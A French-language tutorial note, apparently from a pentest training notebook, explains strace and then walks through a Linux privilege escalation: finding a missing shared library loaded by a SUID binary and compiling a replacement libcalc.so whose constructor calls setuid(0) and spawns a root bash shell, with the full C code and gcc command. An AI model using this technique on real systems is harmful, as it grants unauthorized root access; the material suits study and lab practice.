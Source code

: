 Description :

Permet de diagnostiquer les appels systèmes. En gros à chaque fois que le programme appelle une librairie, l'ouverture de fichier,... il nous le montre. Ca peut être bordelique donc l'utilisation d'un grep est judicieuse.

Exemple :  
`strace /usr/local/bin/suid-so 2>&1`

Là on regarde tous les appels système. `2>&1` sert a rediriger les erreurs (2) vers la sortie standard (1). Le & sert juste a spécifier qu'on redirige vers un autre descripteur de fichier.

Vulnérabilité possible grâce a strace :

Si on a un fichier suid (fichier qui s'exécute avec les privilèges du owner du fichier donc s'il appartient à root, peu importe qui le lance, il se lancera en root) que tu peux voir avec la commande ls -l et voir si le bit s est actif, on pourra voir tout les appels système. Donc si on fait `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"` pour voir quelles sont les fichiers que le programme n'arrive pas à trouver, il nous les donnera. Grace à ca, on peut les créer nous même ces fichiers avec ce qu'on veut dedans.

Imaginons qu'il ne trouve pas un fichier .so nommé libcalc.so dans le dossier /home/user/.config, on peut créer le dossier .config (s'il n'existe pas encore) puis créer notre propre Shared Object à partir d'un script.

`gcc -shared -fPIC -o /home/user/.config/`[libcalc.so](http://libcalc.so "http://libcalc.so") `/home/user/tools/suid/libcalc.c` . Dans mon exemple, dans le fichier libcalc.c, il y a un mini script qui donne les privilèges root :

#include <stdio.h>  
#include <stdlib.h>

static void inject() **attribute**((constructor));

void inject() {  
        setuid(0);  
        system("/bin/bash -p");  
}  
Enfin, on relance le fichier suid pour voir si ca marche.
